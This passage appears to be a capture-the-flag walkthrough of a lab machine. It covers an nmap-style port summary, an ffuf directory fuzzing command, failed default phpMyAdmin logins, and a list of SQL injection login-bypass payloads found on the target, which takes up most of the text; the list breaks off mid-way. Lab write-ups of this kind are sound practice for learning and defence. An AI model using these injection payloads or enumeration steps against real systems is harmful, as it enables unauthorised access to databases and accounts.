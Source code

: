 #### Port 22

Port 22 (SSH) is open and running OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
Possible bruteforce / weak user access. Version might be vulnerable.

#### Port 80

Port 80 (HTTP) is open and running Apache httpd 2.4.38 ((Debian))
Web service. We can start by exploring it manually and then fuzzing/enumeration.
The title of the webpage is: "BACKUP YOUR DATA" → suspicious or hinting at downloadable files (maybe .zip, .bak, etc.)
No httponly flag on PHPSESSID → might indicate a PHP app.

## Web enumeration

Firstly we check the website at ```http://192.168.56.158```. We land on a welcome page for a data server, inviting us to log in to access the data.

After a web enumeration ```ffuf -c -w '/usr/share/wordlists/seclists/Discovery/Web-Content/common.txt' -u "http://$ip/FUZZ"```, this reveals two interesting directories: :

```
data                    [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 0ms]
phpmyadmin              [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 0ms]
```

We visit /phpmyadmin, which presents a login page. We attempt basic credentials such as:
```admin``` / (empty password)
```admin``` / ```admin```
These do not work.
Next, we visit ```/data``` and discover a file named ```/data/injection-sql.txt```. Its contents suggest common SQL injection payloads:

```
Je me demande bien a quoi peut servir ce fichier ??

or 1=1
or 1=1--
or 1=1#
or 1=1/*
or 1=1 -- -
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--